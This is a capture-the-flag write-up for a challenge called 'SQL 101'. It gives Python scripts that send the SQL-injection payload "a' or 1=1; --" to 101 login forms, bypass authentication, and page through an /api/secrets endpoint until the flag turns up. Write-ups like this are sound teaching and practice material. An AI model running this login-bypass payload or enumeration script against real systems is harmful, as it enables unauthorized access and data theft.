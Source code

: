 # SQL 101
<p align="center">
    <img src="img/sql101_chall.png" alt="Challenge" width="500"/>
</p>

Opening the webpage we are given 101 (!) login forms.

<p align="center">
    <img src="img/sql101_website.png" alt="Webpage" width="500"/>
</p>

Our first objective is to create a script which identifies which login form is vulnerable to a SQL-injection. One of my teammates wrote the following script using multiprocessing to find the correct form, which I then extended to solve the remaining of the challenge.
```python
from multiprocessing.dummy import Pool
import re 
import requests
import time

urlbase = "https://53kilomeddata-d6f0-allthoseforms.ept.gg"
mainpage_response = requests.get(urlbase + "/login").text
format = """<form method="post" action="/login/(.+)">"""
endpoints = re.findall(format, mainpage_response)

def pr(i, e):
    url = urlbase + "/login/" + e
    login_response = requests.post(url, data={'username': "a' or 1=1; --", "password": "' or 1=1;--"})
    if "Invalid login credentials!" not in login_response.text:
        # TODO: Form is vulnerable

pool = Pool(50)
for i, e in enumerate(endpoints):
    pool.apply_async(pr, args=[i, e])
time.sleep(20)
```

When the login-form is bypassed with the SQL injection we are greeted with the following page, mentioning some API documentation located at `/api-docs` (href in html code).
<p align="center">
    <img src="img/sql101_logged_in.png" alt="Logged in" width="500"/>
</p>

The `/api-docs` webpage shows the API documentation of the endpoint `/api/secrets`, where the flag most likely is located. All we need to do is query all the pages until we find the flag.
<p align="center">
    <img src="img/sql101_api_docs.png" alt="API-docs" width="500"/>
</p>

Using the following script, `sql.py`, we search for the flag among the secrets:
```python
from multiprocessing.dummy import Pool
import re 
import requests
import time

urlbase = "https://53kilomeddata-d6f0-allthoseforms.ept.gg"
mainpage_response = requests.get(urlbase + "/login").text
format = """<form method="post" action="/login/(.+)">"""
endpoints = re.findall(format, mainpage_response)

def pr(i, e):
    url = urlbase + "/login/" + e
    login_response = requests.post(url, data={'username': "a' or 1=1; --", "password": "' or 1=1;--"})
    if "Invalid login credentials!" not in login_response.text:
        # Create a session, or else we do not keep our authentication
        s = requests.Session()
        r = s.post(url, data={'username': "a' or 1=1; --", "password": "' or 1=1;--"})
        for i in range(1, 100):
            r = s.get(urlbase + f"/api/secrets?page={i}&page_size=20")
            if "EPT" in r.text:
                res = r.json()
                for secret in res.get("secrets", []):
                    if "EPT" in secret.get("text", ""):
                        print(secret)
                        exit()

pool = Pool(50)
for i, e in enumerate(endpoints):
    pool.apply_async(pr, args=[i, e])
time.sleep(20)
```

At page 80, with id 1598, we find the flag.
```
$ python3 sql.py
{'id': 1598, 'text': 'EPT{0ae0fbea-9a8c-4b2c-8e33-b383c8c8f94f}'}
```